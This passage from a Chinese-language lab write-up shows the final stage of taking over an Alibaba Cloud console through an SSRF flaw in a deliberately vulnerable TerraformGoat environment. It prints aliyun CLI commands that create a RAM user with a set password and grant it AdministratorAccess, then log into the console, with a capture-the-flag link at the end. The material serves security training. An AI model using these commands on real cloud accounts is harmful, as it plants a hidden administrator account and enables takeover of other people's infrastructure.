   
创建子用户，并赋予管理员权限  
  
```
aliyun ram CreateUser --UserName teamssix
aliyun ram CreateLoginProfile --UserName teamssix --Password TeamsSix@666
aliyun ram AttachPolicyToUser --PolicyType System --PolicyName AdministratorAccess --UserName teamssix
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0Z0LqMyVGaQibZCffphFs1LSnciaiaGmiaU27s4sdmJEibRTzlHkibO98XfK4jGYuzx7AEAPMaqbz91mvY95URHjj8VQ/640?wx_fmt=png "")  
  
  
访问   
https://signin.aliyun.com 页面，通过 RAM 用户进行登录，这里的用户格式为 username@company-alias，其中 username 就是刚刚创建的用户名，company-alias 可以通过下面的这个命令获取到。  
  
```
aliyun ram GetAccountAlias
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0Z0LqMyVGaQibZCffphFs1LSnciaiaGmiaU2lU95ibL9BVnWRsxMmPIZ3kqIwaGhMy1EDfvOiaBSzqkFGj6cvVaVKBRA/640?wx_fmt=png "")  
  
  
这里的 AccountAlias 就是我们需要的 company-alias，接下来就可以登录控制台了。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0Z0LqMyVGaQibZCffphFs1LSnciaiaGmiaU2IywltqfPC6Eib2UNzk6ySUvjJVzMK2BQvyPWTQkkUYFyvicR9j4tVUibw/640?wx_fmt=png "")  
  
  
输入刚才创建用户时的密码  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0Z0LqMyVGaQibZCffphFs1LSnciaiaGmiaU2BXaubQ4624oX0nHMBxb0hJcLN8DfnYiclN03plozXCX3DoofG373BMg/640?wx_fmt=png "")  
  
  
登录后，就可以看到目标的控制台了。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0Z0LqMyVGaQibZCffphFs1LSnciaiaGmiaU2XXIgFKZmTU9iaGsfqPuCWK7iclQw0kZ2JDDJmzRawuibsFYajobpODJtA/640?wx_fmt=png "")  
  
  
由于刚才在创建用户时，赋予了 AdministratorAccess 权限，因此在 RAM 访问控制处可以看到，当前账号拥有管理所有阿里云资源的权限。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0Z0LqMyVGaQibZCffphFs1LSnciaiaGmiaU2Qu8NE8UNPY6CjhiaicoibyaDVMYq7hyv5PBqZassQyZIaGSOgNA1KblbA/640?wx_fmt=png "")  
  
  
在云服务 ECS 实例中也可以看到我们刚才搭建的那台 SSRF 靶场服务器。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0Z0LqMyVGaQibZCffphFs1LSnciaiaGmiaU2HG0eSK6G1tAriblPagVpNOKdxQ7NIJsexJyMBbBvEq9icicjnjSwiakUmw/640?wx_fmt=png "")  
  
  
**至此，就实现了利用云服务器上的 SSRF 漏洞接管了阿里云控制台。**  
  
  
另外这个环境里还放了一个 flag 文件，你如果感兴趣的话，可以动手去尝试找到这个 flag，Writeup 地址：https://github.com/HuoCorp/TerraformGoat/tree/main/aliyun/ecs/ecs_ssrf  
  
  